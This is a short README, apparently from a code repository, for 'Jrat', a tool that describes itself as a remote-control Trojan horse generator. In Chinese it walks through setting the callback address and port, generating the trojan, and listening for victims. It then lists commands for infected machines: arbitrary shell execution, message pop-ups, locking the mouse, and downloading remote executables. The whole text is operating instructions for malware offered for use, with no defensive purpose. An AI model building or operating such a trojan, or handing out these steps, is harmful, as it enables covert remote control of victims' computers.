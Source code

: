 #&nbsp;Jrat
Jrat&nbsp;is&nbsp;a&nbsp;remote&nbsp;control&nbsp;Trojan&nbsp;horse&nbsp;generator.<br>
使用方法：<br>
在“Jrat>>”阶段可用的命令有：lhost（上线IP），lport（上线端口），port（监听端口），save（生成木马），run（开始监听）<br>
例如：Jrat>>&nbsp;lhost&nbsp;127.0.0.1&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;lport&nbsp;8808&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;port&nbsp;8808&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;save&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;run<br>
以上步骤是生成一个连接到127.0.0.1，端口为8808的木马，然后开始监听8808端口并等待木马上线<br>
木马上线后，程序来到第二阶段“Command>>”阶段，此阶段中可用的命令有：shell+cmd命令，msgbox+提示信息，clip+true/false（锁定/解锁鼠标），download+link+name（远程下载文件）<br>
例如：Command>>&nbsp;shell&nbsp;start&nbsp;C:&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;msgbox&nbsp;Hello&nbsp;World!&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;clip&nbsp;true&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;download&nbsp;http://baidu.com/1.exe &nbsp; 1.exe<br>
上述命令时，先打开C盘，然后弹出一个对话窗口，显示“Hello&nbsp;World!”，接着鼠标被锁住，最后远程下载一个链接为“http://baidu.com/1.exe”的文件<br>
